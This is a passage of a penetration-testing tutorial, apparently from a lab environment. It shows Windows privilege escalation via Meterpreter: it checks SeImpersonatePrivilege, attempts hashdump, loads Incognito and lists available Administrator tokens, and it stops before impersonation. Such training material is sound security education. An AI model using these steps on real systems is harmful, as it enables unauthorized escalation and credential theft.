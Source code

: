Enumerate our current privileges to see whether we can perform token impersonation by typing in `getprivs`.

```
meterpreter > getprivs

SeImpersonatePrivilege
```

We require the `SeImpersonatePrivilege` in order to perform token impersonation. We currently have this privilege, which means we can perform token impersonation, and consequently elevate our privileges.

Just to verify that we don't have any administrative privileges beforehand, I can try and perform a command like `hashdump`, which requires administrative privileges.

```
meterpreter > hashdump
```

Which fails because we don't have sufficient privileges.

We can also try and navigate to the administrator's user directory.

```
meterpreter > cd C:\\
meterpreter > cd Users
meterpreter > cd Administrator
```

You can see operation failed, access is denied. So we definitely need to elevate our privileges.

Now that we've done or verified that we don't have administrative privileges, to begin with, we can begin exploring how to utilize the Incognito module.

When I mentioned that the incognito module is built into meterpreter, what I mean is that you can easily load it by typing in `load incognito`.

```
meterpreter > load incognito
```

We can utilize Incognito within meterpreter to list out, first and foremost, the access tokens available on the system.

So we can say `list_tokens` and say we want to list out the user access tokens `-u`.

```
meterpreter > list_tokens -u
```

```
Delegation Tokens Available
==================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE

Impersonation Tokens Available
==================================
No tokens available
```
